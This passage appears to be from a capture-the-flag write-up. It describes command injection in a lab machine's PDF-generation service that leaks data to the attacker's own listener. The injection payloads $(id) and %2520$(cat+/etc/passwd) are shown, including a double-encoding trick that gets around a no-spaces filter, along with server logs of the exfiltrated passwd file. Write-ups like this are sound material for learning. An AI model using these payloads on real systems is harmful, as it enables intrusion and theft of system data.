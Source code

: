 in the end we found we are getting some useful response from the server with this input schema.

## Exploit

```shell
url=http://10.10.14.207/$(id)
```

and our python server got this response. unfortunately we could not find out how to bypass the limitation of not using spaces.

```shell
10.10.11.189 - - [02/Jan/2023 15:35:07] code 404, message File not found
10.10.11.189 - - [02/Jan/2023 15:35:07] "GET /uid=1001(ruby)%20gid=1001(ruby)%20groups=1001(ruby) HTTP/1.1" 404 -
```

we found in the pdf response the tool and version number how the file is getting generated.

![image](/images/Pasted image 20230102213329.png)

a short google search got us a CVE

![image](/images/Pasted image 20230102213928.png)

we saw the CWE uses a url-encoded space before the actual command. so we tried this too.

![image](/images/Pasted image 20230102214123.png)

and it worked. we needed to urlencode the '%20' again and we can execute commands with spaces.

```shell
url=http://10.10.14.207/%2520$(cat+/etc/passwd)
```

response:

```shell
10.10.11.189 - - [02/Jan/2023 15:51:45] "GET /%20root:x:0:0:root:/root:/bin/bash%0Adaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin%0Abin:x:2:2:bin:/bin:/usr/sbin/nologin%0Asys:x:3:3:sys:/dev:/usr/sbin/nologin%0Async:x:4:65534:sync:/bin:/bin/sync%0Agames:x:5:60:games:/usr/games:/usr/sbin/nologin%0Aman:x:6:12:man:/var/cache/man:/usr/sbin/nologin%0Alp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin%0Amail:x:8:8:mail:/var/mail:/usr/sbin/nologin%0Anews:x:9:9:news:/var/spool/news:/usr/sbin/nologin%0Auucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin%0Aproxy:x:13:13:proxy:/bin:/usr/sbin/nologin%0Awww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin%0Abackup:x:34:34:backup:/var/backups:/usr/sbin/nologin%0Alist:x:38:38:Mailing%20List%20Manager:/var/list:/usr/sbin/nologin%0Airc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin%0Agnats:x:41:41:Gnats%20Bug-Reporting%20System%20(admin):/var/lib/gnats:/usr/sbin/nologin%0Anobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin%0A_apt:x:100:65534::/nonexistent:/usr/sbin/nologin%0Asystemd-network:x:101:102:systemd%20Network%20Management,,,:/run/systemd:/usr/sbin/nologin%0Asystemd-resolve:x:102:103:systemd%20Resolver,,,:/run/systemd:/usr/sbin/nologin%0Amessagebus:x:103:109::/nonexistent:/usr/sbin/nologin%0Asshd:x:104:65534::/run/sshd:/usr/sbin/nologin%0Ahenry:x:1000:1000:henry,,,:/home/henry:/bin/bash%0Asystemd-timesync:x:999:999:systemd%20Time%20Synchronization:/:/usr/sbin/nologin%0Asystemd-coredump:x:998:998:systemd%20Core%20Dumper:/:/usr/sbin/nologin%0Aruby:x:1001:1001::/home/ruby:/bin/bash%0A_laurel:x:997:997::/var/log/laurel:/bin/false HTTP/1.1" 404 -
```
